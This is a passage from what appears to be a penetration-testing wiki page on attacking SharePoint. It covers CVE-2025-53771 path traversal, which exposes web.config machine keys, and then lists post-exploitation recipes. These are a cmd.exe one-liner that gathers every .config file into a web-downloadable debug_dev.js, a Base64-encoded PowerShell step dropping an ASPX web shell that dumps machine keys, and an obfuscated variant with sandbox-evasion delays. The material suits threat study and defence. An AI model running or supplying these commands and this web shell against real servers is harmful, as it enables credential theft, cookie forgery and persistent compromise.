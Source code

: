 [[../../pentesting-web/deserialization/exploiting-__viewstate-parameter.md]]

### 2.4 CVE-2025-53771 – Path Traversal / web.config Disclosure

Sending a crafted `Source` parameter to `ToolPane.aspx` (e.g. `../../../../web.config`) returns the targeted file, allowing leakage of:

* `<machineKey validationKey="…" decryptionKey="…">`  ➜ forge ViewState / ASPXAUTH cookies
* connection strings & secrets.

## 3. Post-exploitation recipes observed in the wild

### 3.1 Exfiltrate every *.config* file (variation-1)

```
cmd.exe /c for /R C:\inetpub\wwwroot %i in (*.config) do @type "%i" >> "C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\16\TEMPLATE\LAYOUTS\debug_dev.js"
```
```
The resulting `debug_dev.js` can be downloaded anonymously and contains **all** sensitive configuration.

### 3.2 Deploy a Base64-encoded ASPX web shell (variation-2)

```
powershell.exe -EncodedCommand <base64>
```
```
Decoded payload example (shortened):

```csharp
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Security.Cryptography" %>
<script runat="server">
    protected void Page_Load(object sender, EventArgs e){
        Response.Write(MachineKey.ValidationKey);
        // echo secrets or invoke cmd
    }
</script>
```
```Written to:

```
C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\16\TEMPLATE\LAYOUTS\spinstall0.aspx
```
```
The shell exposes endpoints to **read / rotate machine keys** which allows forging ViewState and ASPXAUTH cookies across the farm.

### 3.3 Obfuscated variant (variation-3)

Same shell but:
* dropped under `...\15\TEMPLATE\LAYOUTS\`
* variable names reduced to single letters
* `Thread.Sleep(<ms>)` added for sandbox-evasion & timing-based AV bypass.
